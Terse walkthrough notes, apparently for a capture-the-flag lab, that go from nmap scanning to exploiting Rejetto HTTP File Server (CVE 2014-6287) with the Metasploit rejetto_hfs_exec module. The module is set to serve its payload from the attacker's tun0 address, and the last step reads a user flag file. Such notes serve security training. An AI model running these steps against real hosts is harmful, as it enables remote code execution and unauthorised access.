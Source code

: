 1) 
- nmap IP
- 8080
2) 
- go on the site
- bottom left tells you and it links to the official site
- rejetto HTTP file server
3)
- nmap IP -sV
- exploit-db.com
- search for "rejetto HTTP file server" + the version you found
- 2014-6287
4)
- msfconsole
- search CVENUMBER
- use exploit/windows/http/rejetto_hfs_exec
- set RHOSTS IP
- set RPORT 8080
- set SRVHOST tun0IP
- set SRVPORT 1234
- exploit
- cat /Users/bill/Desktop/user.txt